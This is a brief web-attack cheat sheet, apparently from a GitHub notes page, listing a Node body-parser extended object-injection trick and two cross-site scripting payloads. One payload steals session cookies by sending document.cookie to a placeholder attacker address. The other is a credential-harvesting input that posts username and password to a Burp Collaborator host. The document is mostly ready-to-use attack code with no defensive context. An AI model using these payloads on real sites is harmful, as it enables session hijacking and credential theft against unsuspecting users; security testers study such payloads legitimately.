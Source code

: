 (NodeJS) Rich objects BodyParser extended: true
```
content[key]=value -> {"key":"value"}
```
Session Hijacking
```html
<script>new Image().src="http://{attacker IP:port}/?cookie=" + encodeURI(document.cookie);</script>
```
Stealing Credentials
```html
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',
{ 
	method:'POST', 
	mode: 'no-cors', 
	body:username.value+':'+this.value 
});">
```